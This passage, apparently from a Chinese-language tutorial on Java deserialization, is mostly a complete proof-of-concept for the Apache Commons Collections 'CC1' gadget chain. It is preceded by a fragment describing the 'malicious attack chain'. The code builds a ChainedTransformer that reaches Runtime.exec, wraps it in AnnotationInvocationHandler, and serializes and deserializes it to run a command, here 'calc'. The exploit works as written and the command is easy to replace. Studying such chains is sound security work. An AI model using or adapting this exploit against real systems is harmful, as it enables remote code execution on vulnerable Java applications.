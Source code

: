     // 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
    // Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
    Object instance = constructor.newInstance(Target.class, transformedMap);
    ```
#### PoC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class cc1 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0]
                }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "123");
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```
